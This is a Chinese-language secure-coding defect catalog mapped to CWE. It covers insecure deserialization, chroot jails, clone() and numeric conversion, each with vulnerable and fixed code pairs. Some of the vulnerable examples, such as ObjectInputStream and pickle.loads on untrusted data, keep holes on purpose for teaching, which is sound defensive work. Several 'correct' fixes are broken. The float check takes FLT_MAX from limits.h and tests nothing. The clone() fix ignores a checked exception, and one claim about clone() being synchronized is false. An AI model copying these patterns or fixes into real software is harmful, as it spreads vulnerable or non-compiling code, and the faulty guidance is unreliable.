- 策略：使用性能测试工具，模拟高负载场景，测试查询的响应时间和数据库的负载情况。
  1.性能测试：使用工具如JMeter、LoadRunner模拟高负载场景，测试查询的响应时间。
  2.数据库监控：监控数据库的负载情况，识别低效查询。

**代码Review**
- 策略：在代码审查过程中，检查是否有重复查询或可以合并的查询，确保查询语句高效。
  1.检查重复查询：识别代码中重复的查询操作，提出合并建议。
  2.优化查询语句：确保查询语句简洁高效，避免不必要的复杂条件。
  3.使用索引检查：确认查询条件是否使用了索引，避免全表扫描。

**代码检查**
- 策略：使用静态代码分析工具，自动检测低效查询模式，如多次查询相同数据或未使用索引。
  1.设置代码检查规则：使用静态代码分析工具扫描。

**示例**
**案例1: 在SQL查询中使用IN子查询进行关联查询导致性能问题**
**语言: **SQL

**描述**
尽量使用join语句进行关联查询

**反例**
```sql
SELECT
 column1,
 column2,
 ...,
 columnN
FROM
 table1
WHERE
 table1.id in (SELECT table1_id FROM table2 WHERE age = xx) --in子查询引入性能问题
 AND …
```

**正例**
```sql
SELECT
 column1,
 column2,
 ...,
 columnN
FROM
 table1 JOIN table2 ON table1.id = table2.fk_id
 AND table2.age = xxx
WHERE
 conditions…
```

**修复建议**
将in+子查询改写为join

#### CWD-1170-000 大数据表中的数据查询操作过多

**业界缺陷**

- [CWE-1049: Excessive Data Query Operations in a Large Data Table](https://cwe.mitre.org/data/definitions/1049.html)
---

# CWD-1171 不受信任数据的反序列化

**描述**
反序列化漏洞是指在反序列化过程中，如果处理不受信任的数据，攻击者可以构造恶意序列化数据，导致反序列化时执行任意代码，从而控制服务器或窃取敏感信息。可能导致服务器被攻击，数据泄露，系统被控制等安全问题。

**语言: **C,CPP,JAVA,PYTHON

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：在系统设计阶段，选择安全的反序列化库，并设计严格的反序列化类白名单，确保只反序列化可信的类。
  1.选择安全的反序列化库：如Jackson或Gson，这些库提供了反序列化的安全选项。
  2.设计类白名单：限制反序列化的类，确保只允许反序列化可信的类。
  3.数据验证机制：在设计时考虑对输入数据进行严格的验证和过滤。

**编码**
- 策略：避免使用不安全的反序列化方法，使用安全的库，并对输入数据进行严格的验证和过滤。
  1使用安全的反序列化库：如Jackson或Gson，避免使用ObjectInputStream等不安全的方法。
  2.输入数据验证：对输入数据进行严格的验证，确保数据来源可信。
  3.类白名单管理：在反序列化时，只允许反序列化可信的类。

**开发者测试**
- 策略：进行安全测试，模拟攻击者可能发送的恶意数据，测试反序列化过程是否安全。
  1.安全测试：使用工具如OWASP ZAP或Burp Suite，模拟攻击者发送恶意数据，测试反序列化过程。
  2.漏洞检测：检测反序列化漏洞，确保系统在面对恶意数据时不会被攻击。

**代码Review**
- 策略：在代码审查过程中，检查反序列化代码是否使用了安全的方法，是否对输入数据进行了验证和过滤。
  1.检查反序列化方法：确保代码中没有使用不安全的反序列化方法，如ObjectInputStream。
  2.验证输入数据：确认输入数据经过严格的验证和过滤。
  3.类白名单检查：确保反序列化时只允许反序列化可信的类。

**编译构建**
- 策略：在编译构建阶段，集成安全插件或工具，对反序列化代码进行额外的检查和优化。
  1.集成安全插件：在构建过程中运行安全插件，检查反序列化代码的安全性。

**代码检查**
- 策略：使用静态代码分析工具，自动检测不安全的反序列化方法和未验证的输入数据。
  1.设置代码检查规则：使用静态代码分析工具，检测不安全的反序列化方法。

**集成测试**
- 策略：在系统集成测试阶段，全面测试反序列化过程，确保在真实负载下系统能够安全地处理数据。

**示例**
**案例1: 不受信任数据的反序列化**
**语言: **JAVA

**描述**
风险代码使用ObjectInputStream反序列化未经验证的数据，这可能引入反序列化漏洞。攻击者可以构造恶意的序列化数据，导致反序列化时执行任意代码，从而控制服务器或窃取敏感信息。

**案例分析**
风险代码直接使用ObjectInputStream反序列化接收到的数据，而没有验证数据的来源和内容。攻击者可以构造恶意的序列化数据，导致反序列化时执行任意代码

**反例**
```java
import java.io.*;

public class InsecureDeserialization {
    public static void main(String[] args) {
        try {
            // 模拟从网络接收到的数据
            byte[] data = receiveData();
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
            Object obj = ois.readObject();
            System.out.println("反序列化成功，对象类型：" + obj.getClass().getName());
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }
    }

    private static byte[] receiveData() {
        // 模拟从网络接收的数据，实际可能是攻击者构造的恶意数据
        return new byte[1024];
    }
}
```

**正例**
```java
import com.fasterxml.jackson.databind.ObjectMapper;

public class SecureDeserialization {
    public static void main(String[] args) {
        try {
            // 模拟从网络接收到的数据
            String json = receiveData();
            ObjectMapper mapper = new ObjectMapper();
            User user = mapper.readValue(json, User.class);
            System.out.println("反序列化成功，用户名：" + user.getUsername());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static String receiveData() {
        // 模拟从网络接收到的数据
        return "{\"username\":\"testuser\", \"password\":\"testpass\"}";
    }

    static class User {
        private String username;
        private String password;

        public String getUsername() {
            return username;
        }

        public void setUsername(String username) {
            this.username = username;
        }

        public String getPassword() {
            return password;
        }

        public void setPassword(String password) {
            this.password = password;
        }
    }
}
```

**修复建议**
1.避免使用不安全的反序列化方法：如ObjectInputStream。
2.使用安全的反序列化库：如Jackson或Gson，并配置它们以限制反序列化的类。
3.严格的输入验证和过滤：确保数据来源可信，对输入数据进行验证。

**案例2: 不受信任数据的反序列化**
**语言: **PYTHON

**描述**
直接使用 pickle.loads() 反序列化不受信任的数据可能导致任意代码执行漏洞。pickle 模块会反序列化为任意对象，攻击者可以构造恶意的 .pkl 文件，触发恶意代码执行。

**反例**
```py
import pickle


with open('data.pkl', 'rb') as f:
    # 反序列化对象，触发恶意代码
    data = pickle.loads(f.read())  # 不符合
```

**正例**
```py
import json


with open('data.json', 'r') as f:
    # json模块限制了反序列化的数据类型，避免了执行任意代码的可能性
    data = json.loads(f.read())  # 符合
```

**修复建议**
1. 采用更为安全的序列化格式（例如json）处理不受信任的数据。
2. 使用hmac对序列化数据进行签名，确保数据没有被篡改。

#### CWD-1171-000 不受信任数据的反序列化

#### CWD-1171-001 【Hession】com.caucho.hessian.io.HessianInput构造函数的参数受控且未限制反序列化过程，后续调用反序列化方法会导致不安全反序列化问题

#### CWD-1171-002 【Jackson】com.fasterxml.jackson.databind.ObjectMapper下的enableDefaultTyping方法调用后会取消反序列化安全限制，后续调用readValue时参数不可信，造成不安全反序列化问题

#### CWD-1171-003 【JDK】java.io.ObjectInputStream构造函数的参数受控且未限制反序列化过程，后续调用反序列化方法会导致不安全反序列化问题

#### CWD-1171-004 【Kryo】com.esotericsoftware.kryo.Kryo下的readClassAndObject方法对不可信数据直接进行反序列化且未限制反序列化过程，造成不安全反序列化问题

#### CWD-1171-005 【SnakeYaml】org.yaml.snakeyaml.Yaml下的load、loadAs方法对不可信数据直接进行反序列化且未限制反序列化过程，造成不安全反序列化问题

#### CWD-1171-006 【XMLDecoder】java.beans.XMLDecoder构造函数的参数受控且未限制反序列化过程，后续调用反序列化方法会导致不安全反序列化问题

#### CWD-1171-007 【Fastjson】使用com.alibaba.fastjson.JSON的parse、parseObject对不可信数据进行反序列化时，禁用SafeMode模式，造成不安全反序列化问题

#### CWD-1171-008 【Fastjson】使用com.alibaba.fastjson.JSON的parse、parseObject对不可信数据进行反序列化时，开启AutoType，造成不安全反序列化问题

#### CWD-1171-009 【JDBC连接】使用java.sql.DriverManager类的getConnection方法建立Mysql JDBC连接时，连接url主动设置了不安全的属性autoDeserialize=true，造成不安全反序列化问题

#### CWD-1171-010 【JDBC连接】使用java.sql.DriverManager类的getConnection方法建立Mysql JDBC连接时，连接url拼接的不可信数据注入了不安全属性autoDeserialize=true，造成不安全反序列化问题

#### CWD-1171-011 【JDBC连接】Springboot配置的JDBC连接url主动设置了不安全的属性autoDeserialize=true，造成不安全反序列化问题

#### CWD-1171-012 【JtaTransactionManager】org.springframework.transaction.jta.JtaTransactionManager对象序列化前，setUserTransactionName方法将不可信数据设置为了JNDI路径，在反序列化时造成JNDI注入

#### CWD-1171-013 反序列化被利用来绕过构造方法中的安全操作

#### CWD-1171-014 直接序列化指向系统资源的信息

**业界缺陷**

- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
---

# CWD-1172 修改假定不可变数据

**描述**
未正确保护不可变的数据。某些数据被认为是不可变的，但实际上这些数据可以被修改，导致程序出现错误或安全问题。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1172-000 修改假定不可变数据

#### CWD-1172-001 public Static Final字段引用可变对象

#### CWD-1172-002 不可修改数据未使用const修饰符

#### CWD-1172-003 编译时已明确的值未使用constexpr说明符

#### CWD-1172-004 进行安全检查的方法必须声明为private或final

**业界缺陷**

- [CWE-471: Modification of Assumed-Immutable Data (MAID)](https://cwe.mitre.org/data/definitions/471.html)
---

# CWD-1176 protect/private成员被不正确的访问

**描述**
保护（protected）和私有（private）成员用于限制类成员的访问权限，以实现封装和信息隐藏。保护成员只能在类本身及其派生类中访问，而私有成员只能在类的内部访问。如果这些成员被意外或恶意修改，可能会导致数据损坏，从而使程序行为不稳定或产生错误结果。

**语言: **C,CPP,JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略： 在设计阶段明确类的成员访问权限，确保保护和私有成员仅在必要时暴露。
  1.使用访问修饰符（private、protected）来限制成员的访问范围。
  2.设计公有接口（如getter和setter方法）来控制对保护和私有成员的访问。
  3.文档化类的成员访问规则，确保开发团队理解每个成员的访问权限。

**编码**
- 策略： 遵循编码规范，编码时严格遵守访问修饰符的使用规范。
  1.对于不需要外部访问的成员，声明为private。
  2.对于需要在派生类中访问的成员，声明为protected。
  3.避免在类的外部直接访问保护或私有成员，而是通过公有方法进行操作。
  4.使用智能指针或引用传递，避免不必要的成员暴露。

**代码Review**
- 策略： 在代码审查过程中，重点检查成员的访问修饰符和访问方式。
  1.确保所有保护和私有成员的访问权限符合设计文档。
  2.检查是否有外部代码直接访问保护或私有成员，提出修改建议。
  3.确保公有接口的正确性和完整性，避免不必要的成员暴露。

**编译构建**
- 策略： 在编译构建阶段集成代码检查工具，确保代码符合访问控制要求。
  1.配置编译器选项，使得对保护或私有成员的非法访问导致编译错误。
  2.使用构建工具（如CMake、Make）集成静态分析工具，自动化检测过程。

**代码检查**
- 策略： 使用静态代码分析工具检测不正确的成员访问
  1.设置代码检查规则，使用静态代码分析工具扫描，并上报告警。

**示例**
**案例1: 私有成员被外部函数访问**
**语言: **CPP

**描述**
在accessProtectedAndPrivate函数中，外部代码尝试直接访问Base类的保护成员protectedVar和私有成员privateVar。

**反例**
```c++
class Base {
protected:
    int protectedVar = 42;
private:
    int privateVar = 100;
};

void accessProtectedAndPrivate() {
    Base baseObject;
    baseObject.protectedVar = 10; // 错误：外部函数访问保护成员
    baseObject.privateVar = 20;   // 错误：外部函数访问私有成员
}
```

**正例**
```c++
class Base {
protected:
    int protectedVar = 42;
private:
    int privateVar = 100;

public:
    void setProtectedVar(int value) {
        protectedVar = value;
    }

    int getProtectedVar() const {
        return protectedVar;
    }
};

class Derived : public Base {
public:
    void modifyProtectedVar(int value) {
        protectedVar = value; // 正确：派生类访问保护成员
    }
};

void correctAccess() {
    Base baseObject;
    baseObject.setProtectedVar(10); // 正确：通过公有接口访问保护成员

    Derived derivedObject;
    derivedObject.modifyProtectedVar(20); // 正确：派生类访问保护成员
}
```

**修复建议**
1.正确使用访问修饰符：确保类的成员根据其访问需求正确地声明为公有、保护或私有。
2.提供公有接口：对于需要外部访问的成员，提供公有方法（如getter和setter）来控制访问和修改。
3.派生类正确访问：在派生类中，通过继承关系正确访问保护成员，避免直接访问私有成员。

**案例2: 直接访问和修改类的protected属性**
**语言: **PYTHON

**描述**
在Python中，受保护的成员通常以单下划线`_`开头，表示它们不应该被外部直接访问。直接访问受保护成员会破坏封装性，引发潜在的问题。

**案例分析**
，EntityA类直接通过entity_obj._race访问另一个实例的受保护属性_race，并且在主函数中也直接打印了_race属性。这种做法虽然在语法上是允许的，但违反了封装原则。

**反例**
```py
class Entity:
    def __init__(self, eid: int = 0, race: str = "no name", age: int = 0):
        self.__eid = eid
        self._race = race
        self.age = age


class EntityA(Entity):
    def copy_race(self, entity_obj: Entity):
        self._race = entity_obj._race  # 不符合，跨实例访问类的protected类实例属性

    def get_race(self):
        return self._race

if __name__ == "__main__":
    obj_a = EntityA(eid=1, race="dog")
    obj_b = EntityA(eid=2, race="cat")
    obj_b.copy_race(obj_a)
    print(obj_b._race)  # 不符合，直接访问类的protected类实例属性
```

**正例**
```py
class Entity:
    def __init__(self, eid: int = 0, race: str = "no name", age: int = 0):
        self.__eid = eid
        self._race = race
        self.age = age


class EntityA(Entity):
    def copy_race(self, entity_obj: Entity):
        self._race = entity_obj.get_race()  # 符合

    def get_race(self):
        return self._race

if __name__ == "__main__":
    obj_a = EntityA(eid=1, race="dog")
    obj_b = EntityA(eid=2, race="cat")
    obj_b.copy_race(obj_a)
    print(obj_b.get_race()) # 符合
```

**修复建议**
可以通过以下方法访问被保护的类实例属性：
1. 在类中定义一个公有成员函数，该函数可以访问类的受保护的成员，以提供外部访问功能。
2. 通过 property 装饰器创建只读属性的形式提供外部访问功能。

#### CWD-1176-000 protect/private成员被不正确的访问

**业界缺陷**

- [CWE-495: Private Data Structure Returned From A Public Method](https://cwe.mitre.org/data/definitions/495.html)
---

# CWD-1177 clone方法实现不正确

**别名: **错误使用Clone方法

**描述**
在Java中，Object类提供了一个protected方法clone()，用于创建对象的浅拷贝。当自定义类重写clone()方法时，如果不正确实现，可能会导致以下问题：1.父类字段未正确复制： 父类的clone()方法负责复制父类的字段。如果不调用super.clone()，父类的字段可能不会被正确复制，导致克隆出来的对象缺少父类的初始化状态。2.父类的初始化逻辑未执行： 如果父类的clone()方法中包含一些初始化逻辑，不调用super.clone()会导致这些逻辑未被执行，可能引发对象状态不一致。3.线程不安全： Object类的clone()方法是线程安全的，因为它使用了同步块。如果不调用super.clone()，自定义的clone()方法可能不具备线程安全性，导致在多线程环境下出现竞态条件。4.代码抛出异常：如果一个类定义了clone()方法但没有实现Cloneable接口，那么在调用clone()方法时会抛出CloneNotSupportedException异常，因为在Java中，只有实现了Cloneable接口的类才能被克隆。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**软件实现设计**
- 策略： 在设计阶段明确clone()方法的实现，确保调用super.clone()。
  1.确保所有自定义类的clone()方法在重写时调用super.clone()，以确保父类的字段和初始化逻辑被正确复制。
  2.设计文档中明确指出clone()方法的实现规范，包括调用super.clone()和实现Cloneable接口。

**编码**
- 策略： 在编码时，确保自定义的clone()方法调用super.clone()。
  1.使用@Override注解明确重写Object类的clone()方法。
  2.实现Cloneable接口，避免在调用clone()时抛出CloneNotSupportedException异常。
  3.如果需要深拷贝，确保在clone()方法中对引用类型的字段进行深拷贝。

**开发者测试**
- 策略： 编写单元测试，验证clone()方法是否正确调用super.clone()。
  1.测试直接调用super.clone()是否会引发编译错误。
  2.验证克隆出来的对象是否包含父类的字段和初始化状态。
  3.在多线程环境下测试clone()方法的线程安全性，确保没有竞态条件

**代码Review**
- 策略： 在代码审查过程中，重点检查clone()方法的实现。
  1.确保所有自定义的clone()方法都调用super.clone()。
  2.检查是否实现了Cloneable接口，避免CloneNotSupportedException异常。
  3.确保clone()方法中对引用类型的字段进行了深拷贝，避免浅拷贝带来的问题。

**代码检查**
- 策略： 使用静态代码分析工具检测clone()方法是否调用super.clone()。
  1.设置代码检查规则，使用静态代码分析工具识别未调用super.clone()的clone()方法。

**示例**
**案例1: clone方法没有调用super.clone()**
**语言: **JAVA

**描述**
Person类的clone()方法没有调用super.clone()，直接创建了一个新的Person对象。如果Person类的父类（如Object）有需要复制的字段或初始化逻辑，这些不会被执行。

**案例分析**
1.Person类的clone()方法没有调用super.clone()，直接创建了一个新的Person对象。
2.如果Person类的父类（如Object）有需要复制的字段或初始化逻辑，这些不会被执行。
3.在多线程环境下，clone()方法可能不具备线程安全性，导致竞态条件。

**反例**
```java
public class Person implements Cloneable {
    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public Person clone() {
        // 未调用 super.clone()
        Person newPerson = new Person(this.name, this.age);
        return newPerson;
    }

    // getters and setters
}

public class Main {
    public static void main(String[] args) {
        Person original = new Person("Alice", 30);
        Person cloned = original.clone();
        System.out.println("Original: " + original.getName());
        System.out.println("Cloned: " + cloned.getName());
    }
}
```

**正例**
```java
public class Person implements Cloneable {
    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    @Override
    public Person clone() {
        Person newPerson = (Person) super.clone();
        // 进行深拷贝，如果需要
        return newPerson;
    }

    // getters and setters
}

public class Main {
    public static void main(String[] args) {
        Person original = new Person("Alice", 30);
        Person cloned = original.clone();
        System.out.println("Original: " + original.getName());
        System.out.println("Cloned: " + cloned.getName());
    }
}
```

**修复建议**
1.调用super.clone()： 在自定义的clone()方法中，首先调用super.clone()，确保父类的字段和初始化逻辑被正确复制。
2.实现Cloneable接口： 确保自定义类实现Cloneable接口，避免在调用clone()时抛出CloneNotSupportedException异常。
3.进行深拷贝： 如果类包含引用类型的字段，应在clone()方法中进行深拷贝，避免浅拷贝带来的问题。

#### CWD-1177-000 clone方法实现不正确

#### CWD-1177-001 clone方法没有调用super.clone()

#### CWD-1177-002 clone方法没有实现Cloneable接口

---

# CWD-1180 创建 chroot Jail 而不改变工作目录

**别名: **无法在 chroot Jail 中更改工作目录

**描述**
在使用chroot系统调用来创建一个受限的运行环境（即chroot Jail）时，如果未更改当前工作目录到chroot Jail的根目录，可能会导致以下问题：1.chroot Jail失效： 程序可能仍然在原来的根目录下运行，无法实现预期的隔离效果。2.潜在的安全风险： 如果程序试图访问或修改系统的关键文件，可能会导致系统受损。3.不可预测的行为： 程序在chroot Jail外运行，可能导致不可预测的行为，影响系统的稳定性和安全性。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略： 在设计阶段明确chroot Jail的使用场景和安全目标。
  1.确保在设计文档中规定，创建chroot Jail后必须更改工作目录到其根目录。
  2.设计时考虑chroot Jail内部的文件系统结构，确保所有必要的文件和目录都已正确挂载。

**编码**
- 策略： 在编码时，确保在调用chroot函数后，立即调用chdir函数将工作目录更改为chroot Jail的根目录。
  1.使用chdir("/")将工作目录更改为chroot Jail的根目录。
  2.处理chroot和chdir函数的返回值，确保操作成功，否则程序应优雅地处理错误。

**开发者测试**
- 策略： 编写单元测试，验证chroot Jail的创建和工作目录的更改。
  1.测试chroot和chdir函数的调用顺序和结果。
  2.验证程序在chroot Jail内部运行时，无法访问chroot Jail外部的资源。

**代码Review**
- 策略： 在代码审查过程中，重点检查chroot和chdir的调用。
  1.确保chroot之后立即调用chdir，并将工作目录更改为chroot Jail的根目录。
  2.检查错误处理逻辑，确保在chroot或chdir失败时，程序能够正确处理。

**代码检查**
- 策略： 使用静态代码分析工具检测chroot调用后未更改工作目录的情况。
  1.设置代码检查规则，使用静态代码分析工具识别chroot调用后未调用chdir的情况，生成警告或错误。

**集成测试**
- 策略： 在集成测试中全面验证chroot Jail的隔离效果。
  1.测试程序在chroot Jail内部运行时，无法访问chroot Jail外部的资源。
  2.验证多线程环境下chroot Jail的隔离性，确保没有竞态条件或不正确的访问。

**示例**
**案例1: 创建chroot Jail而不改变工作目录**
**语言: **C

**描述**
在风险代码中使用chroot创建一个受限的运行环境，但当前工作目录没有修改到chroot Jail下。

**案例分析**
chroot函数被调用来创建一个受限的运行环境，chroot之后，程序没有更改当前工作目录到chroot Jail的根目录。
这意味着程序仍然在原来的根目录下运行，chroot Jail并未生效，程序可以访问系统其他部分，导致安全风险。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

int main() {
    const char *chroot_dir = "/path/to/chroot/jail";

    // 创建chroot Jail
    if (chroot(chroot_dir) == -1) {
        perror("chroot");
        exit(EXIT_FAILURE);
    }

    // 未更改工作目录到chroot Jail的根目录

    // 执行一些操作
    execl("/bin/bash", "bash", NULL);

    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

int main() {
    const char *chroot_dir = "/path/to/chroot/jail";

    // 创建chroot Jail
    if (chroot(chroot_dir) == -1) {
        perror("chroot");
        exit(EXIT_FAILURE);
    }

    // 更改工作目录到chroot Jail的根目录
    if (chdir("/") == -1) {
        perror("chdir");
        exit(EXIT_FAILURE);
    }

    // 执行一些操作
    execl("/bin/bash", "bash", NULL);

    return 0;
}
```

**修复建议**
在chroot之后立即更改工作目录。

#### CWD-1180-000 创建 chroot Jail 而不改变工作目录

**业界缺陷**

- [CWE-243: Creation of chroot Jail Without Changing Working Directory](https://cwe.mitre.org/data/definitions/243.html)
---

# CWD-1182 数值类型间转换错误

**描述**
数值类型之间的转换如果不当，可能导致数据丢失、溢出或不正确的计算结果。常见的问题包括：1.精度丢失： 将高精度的数值类型（如double）转换为低精度的类型（如float或int）时，可能会丢失部分数据，导致精度下降。2.溢出： 当数值超出目标类型的范围时，转换会导致溢出，结果不正确，甚至引发未定义行为。3.不正确的截断： 将浮点数转换为整数时，通常会截断小数部分，这可能不符合预期的四舍五入逻辑。4.符号问题： 不同类型的符号位不同，转换时可能会导致符号错误，尤其是在处理负数时。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
可靠,可读

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段，明确数据的范围和精度需求，选择合适的数据类型。
  1.使用long long处理大整数，避免溢出。
  2.使用double处理高精度浮点数，避免精度丢失。
  3.设计防御性机制，例如在转换前检查数值范围，避免溢出或精度丢失。
  4.预留日志或告警机制，记录潜在的数值转换问题。

**编码**
- 策略：遵循编码规范
  1.使用显式类型转换（如static_cast）代替隐式转换，明确转换意图。
  2.在转换前检查数值是否在目标类型的范围内
  3.避免不必要的转换，尽量减少类型转换的次数，保持数据在高精度类型中处理。
  4.处理浮点数转换时，使用round或ceil等函数进行四舍五入，避免简单的截断

**开发者测试**
- 策略：
  1.边界值测试： 测试数值在目标类型的最大值和最小值附近的情况。
  2.极端值测试： 测试超出目标类型范围的数值，确保程序能够正确处理或告警。
  3.精度测试： 测试高精度数值转换为低精度类型时的精度丢失情况。
  4.符号测试： 测试正负数转换时的符号是否正确。

**代码Review**
- 策略：
  1.类型转换： 检查所有类型转换是否合理，是否有潜在的溢出或精度丢失风险。
  2.隐式转换： 确保没有隐式类型转换，所有转换都使用显式转换。
  3.范围检查： 确保在转换前进行了范围检查，避免溢出。
  4.防御性代码： 确保代码中包含防御性逻辑，例如错误处理或告警。

**编译构建**
- 策略：
1. 启用类型转换警告： 配置编译器（如GCC、Clang）启用与类型转换相关的警告，例如-Wconversion

**代码检查**
- 策略：使用静态代码分析工具（如Coverity、SonarQube、clang-tidy等）检测潜在的数值转换问题：
  1.检测隐式类型转换。
  2.检测可能的溢出或精度丢失。
  3.检测未进行范围检查的转换操作。
  4.设置代码检查规则，检查数据转换类型。

**集成测试**
- 策略：
  1.数值转换场景： 测试不同数值类型之间的转换，确保结果正确。
  2.边界条件场景： 测试数值在目标类型边界附近的情况，确保程序稳定。
  3.错误处理场景： 测试超出范围或精度丢失的情况，确保程序能够优雅处理或告警。
  4.性能测试： 测试数值转换对程序性能的影响，确保不会引入性能瓶颈。

**示例**
**案例1: 整型和浮点型数值转换不正确**
**语言: **C

**描述**
风险代码中通过将整型的最大值赋值给float，导致溢出。

**案例分析**
将int的最大值2147483647赋值给float变量b。由于float的精度限制，b的值被错误地表示为2147483648.000000，超过了int的最大值，导致溢出。

**反例**
```c
#include <stdio.h>

int main() {
    int a = 2147483647; // int的最大值
    float b = a;
    printf("a = %d, b = %f\n", a, b);
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <limits.h>

int main() {
    int a = 2147483647;
    if (a > FLT_MAX) {
        printf("数值超出float范围，无法安全转换。\n");
        return 1;
    }
    float b = a;
    printf("a = %d, b = %f\n", a, b);
    return 0;
}
```

**修复建议**
1.选择合适的数据类型： 根据数据的范围和精度要求，选择合适的数据类型。例如，处理大整数时使用long long，需要高精度时使用double。
2.进行范围检查： 在进行类型转换之前，检查数值是否在目标类型的范围内，避免溢出。
3.使用显式转换： 使用显式转换，明确转换意图，避免隐式转换带来的潜在问题。
4.处理浮点数转换： 将浮点数转换为整数时，考虑使用round函数进行四舍五入，而不是简单的截断。
5.编写防御性代码： 在转换过程中添加错误检查和处理逻辑，确保程序在遇到超出范围的数值时能够优雅地处理。

**案例2: double被直接赋值给int导致数据丢失**
**语言: **CPP

**描述**
将浮点型数值直接赋值给整型变量会导致数据丢失，因为浮点型数值中的小数部分会被截断。

**反例**
```cpp
void NarrowArithmeticBad01()
{
    double d = 8.2;
    // 不符合：数据有损的窄化，double转int
    int i = d; // i的值为8，小数部分被截断
}
```

**正例**
```cpp
void NarrowArithmeticGood01()
{
    double d = 8.2;
    // 符合：使用相同类型
    double v = d; // v的值为8.2，没有数据丢失

    // 符合： 显式double转int
    int i = static_cast<int>(d); // i的值为8，明确转换意图
}
```

**修复建议**
1. 避免隐式转换：如果不需要做有损算术转换，应保持变量类型一致，避免隐式转换导致的数据丢失。
2. 使用显式转换：如果必须进行类型转换，应使用C++的显式类型转换操作符（如static_cast），以明确转换意图，提高代码的可读性和安全性。

#### CWD-1182-000 数值类型间转换错误

#### CWD-1182-001 整数强制转换错误：函数返回时发生

#### CWD-1182-002 整数强制转换错误：传参时发生

#### CWD-1182-003 整数强制转换错误：变量赋值时发生

#### CWD-1182-004 符号转换：有符号到无符号的转换

#### CWD-1182-005 符号转换：无符号到有符号的转换

#### CWD-1182-006 浮点数到整型的转换：浮点精度丢失

#### CWD-1182-007 枚举到整型之间的比较运算：整型超过枚举的范围（重命名）

#### CWD-1182-008 通过不兼容指针类型访问数据，导致未定义结果

#### CWD-1182-009 在位运算时发生非预期的符号扩展，导致结果错误

#### CWD-1182-010 传给函数的实参类型大小（uint16）小于函数要求的形参类型大小（uint32），导致函数内向该内存写越界

#### CWD-1182-011 包装类自动拆箱的空指针异常

#### CWD-1182-012 使用double构造BigDecimal导致精度损失

#### CWD-1182-013 字符串到数字转换的格式异常

#### CWD-1182-014 对于从流中读取一个字符或字节的方法，使用byte类型的返回值

**业界缺陷**

- [CWE-681: Incorrect Conversion between Numeric Types](https://cwe.mitre.org/data/definitions/681.html)
---

# CWD-1183 不同进制的解析错误

**描述**
字符串中的转义序列（如八进制转义序列）如果不正确使用，可能会导致解析错误或意外行为。常见的问题包括：1.八进制转义序列的误用： 八进制转义序列以\0开头，后面跟0-7的数字。如果后面跟着非八进制数字（如8或9），编译器可能会将其视为无效的八进制转义序列，或者仅解析部分字符，导致意外的字符解释。2.转义序列与普通字符混淆： 如果字符串中包含类似转义序列的字符（如\038），可能会被误认为是八进制转义序列，导致解析错误。3.可读性问题： 使用八进制转义序列可能导致代码难以阅读和维护，尤其是在处理特殊字符时。推荐使用unicode表示法。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠,可读

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段，明确字符串处理的需求，避免使用容易混淆的转义序列：
  1.避免八进制转义序列： 尽量避免使用八进制转义序列（如\0开头的转义），改用更清晰的十六进制转义序列（如\x开头）或Unicode表示法（如\u开头）。
  2.统一编码规范： 在团队中统一使用某种转义序列格式（如十六进制或Unicode），避免混合使用不同进制的转义序列。
  3.防御性设计： 设计字符串处理模块时，增加对转义序列的验证逻辑，确保输入字符串符合预期的格式。

**编码**
- 策略：在编码时，遵循以下原则：
  1.避免八进制转义序列： 尽量避免使用八进制转义序列（如\0开头的转义），改用十六进制转义序列（如\xHH）或Unicode表示法（如\uHHHH）。
  2.明确字符编码： 在处理特殊字符时，使用更清晰的转义序列（如\x08表示退格符），避免歧义。
  3.输入验证： 在解析字符串时，对输入字符串进行有效性检查，确保其符合预期的转义序列格式。
  4.使用防御性代码： 在字符串处理函数中，增加错误处理逻辑，避免因转义序列解析错误导致程序崩溃

**开发者测试**
- 策略：
  1.转义序列测试： 测试字符串中包含不同进制转义序列的情况，确保解析结果正确。
  2.边界条件测试： 测试字符串中包含无效转义序列（如\08）的情况，确保程序能够正确处理或告警。
  3.特殊字符测试： 测试字符串中包含特殊字符（如\x00、\n、\t）的情况，确保解析结果符合预期。
  4.混合转义序列测试： 测试字符串中包含混合进制转义序列的情况，确保程序不会混淆不同进制的转义序列。

**代码Review**
- 策略：在代码评审时，重点关注以下内容：
  1.转义序列使用： 检查字符串中是否使用了八进制转义序列，建议改用十六进制或Unicode表示法。
  2.转义序列格式： 确保转义序列格式正确，避免无效或混淆的转义序列。
  3.输入验证： 确保字符串解析函数中包含输入验证逻辑，避免解析错误。
  4.防御性代码： 确保代码中包含错误处理逻辑，避免因转义序列解析错误导致程序崩溃。

**编译构建**
- 策略：在编译构建阶段，启用编译器警告和优化：
  1.启用转义序列警告： 配置编译器（如GCC、Clang）启用与转义序列相关的警告，例如-Wchar-subscripts或-Wformat

**代码检查**
- 策略：
  1、设置代码检查规则，使用静态代码分析工具进行扫描。

**集成测试**
- 策略：
  1.转义序列解析场景： 测试字符串中包含不同进制转义序列的情况，确保解析结果正确。
  2.边界条件场景： 测试字符串中包含无效转义序列（如\08）的情况，确保程序能够正确处理或告警。
  3.特殊字符场景： 测试字符串中包含特殊字符（如\x00、\n、\t）的情况，确保解析结果符合预期。
  4.性能测试： 测试字符串解析对程序性能的影响，确保不会引入性能瓶颈。

**示例**
